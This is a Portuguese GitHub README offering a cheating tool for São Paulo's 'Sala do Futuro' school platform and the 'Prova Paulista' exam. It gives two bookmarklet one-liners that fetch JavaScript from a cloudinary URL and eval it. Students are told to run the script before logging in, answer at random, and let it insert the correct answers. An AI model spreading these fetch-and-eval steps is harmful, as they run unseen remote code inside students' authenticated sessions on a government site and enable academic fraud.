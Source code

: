 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### INSTALAÇÃO:
1. Clique nos três pontos no canto.
2. No canto superior direito e clique na estrela.
3. Clique na mensagem que aparecer embaixo.
4. No campo Nome, escreva qualquer coisa.
5. No campo URL ou Endereço, cole o código:

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```
### CONTINUAÇÃO:

1. Execute o script antes de **efetuar o Login** no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos).
2. **Depois de efetuado**, deve ir até a tarefa que você quer fazer.
3. Responda **aleatoriamente** às questões da tarefa e envie.
4. Logo depois, o script irá inserir todas às **respostas corretamente.**

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

### [Discord: Hackermoon](https://discord.gg/uCVvwAmg)

### Créditos:

- [Inacallep](https://github.com/inacallep)

- [Crackingnlearn](https://github.com/crackingnlearn)

- [Miturufu](https://github.com/Miturufu)


